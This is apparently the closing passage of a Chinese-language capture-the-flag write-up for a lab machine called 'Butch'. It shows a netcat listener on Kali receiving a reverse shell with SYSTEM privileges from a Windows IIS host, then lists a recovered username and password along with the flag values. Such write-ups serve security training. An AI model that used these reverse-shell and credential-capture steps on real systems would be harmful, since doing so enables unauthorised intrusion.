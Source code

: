 

nc监听450端口，获取反弹Shell

```sh
kali@kali:~$ sudo nc -lvp 450
listening on [any] 450 ...
192.168.65.63: inverse host lookup failed: Unknown host
connect to [192.168.49.65] from (UNKNOWN) [192.168.65.63] 49687
Microsoft Windows [Version 10.0.17763.1217]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv&gt;whoami
whoami
nt authority\system

c:\windows\system32\inetsrv&gt;
```





## Flag

```
butch/awesomedude

type C:\users\administrator\desktop\proof.txt
8efb9ecaa9dd953e25de084f5db30648

type C:\users\butch\desktop\local.txt
0f5cfaf654fe39337300f602295effb4
```



---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/provinggrounds-butch/  

